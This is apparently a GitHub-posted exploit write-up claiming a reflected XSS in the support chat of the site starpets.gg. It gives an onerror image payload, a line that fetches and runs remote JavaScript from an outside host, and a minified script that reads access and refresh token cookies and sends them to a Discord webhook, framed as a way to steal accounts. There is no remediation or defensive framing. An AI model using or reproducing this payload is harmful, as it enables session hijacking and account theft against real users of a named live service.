 ### website: https://starpets.gg
#### Vulnibity: XSS Reflected 

**What can this exploit do?0**

- lets attackers steal access tokens
- inject JS in to page
- steal creditcards when entered
- spoof website

**Where?**
In support chat. Victim will send the payload in the chat and JS will be injected

**xss injection**
```html
<img src="" onerror="YOUR SCRIPT" />
```

**Proof of work**
```html
<img src="" onerror="fetch('https://badcode.com/script.js').then(response => response.text()).then(script => new Function(script)());"/>
```
the following shows how to inject a remote javascript file on the website.

**Proof of concept**
using the proof of work if the attacker wants to steal a starpets account he must use the following JS script to be loaded 

```js
function getCookiesMap(e){return e.split(";").map(function(e){return e.trim().split("=")}).reduce(function(e,n){return e[n[0]]=n[1],e},{})}function tokens(){let e=getCookiesMap(document.cookie);if(!e.hasOwnProperty("access-token")||!e.hasOwnProperty("refresh-token"))return[void 0,void 0];let n=e["access-token"],t=e["refresh-token"];return{accessToken:n,refreshToken:t}}async function leet(e,n,t){try{await fetch(e,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({content:null,embeds:[{title:"1337 made by NTX, Camel and Luke!",color:0,fields:[{name:"Access Token",value:"```\n"+n+"\n```"},{name:"Refresh Token",value:"```\n"+t+"\n```"}]}],attachments:[]})})}catch(o){console.error("Error sending message:",o)}}const{accessToken:e,refreshToken:n}=tokens();leet(atob("YOUR BASE 64 DISCORD WEBHOOK"),e,n);
```
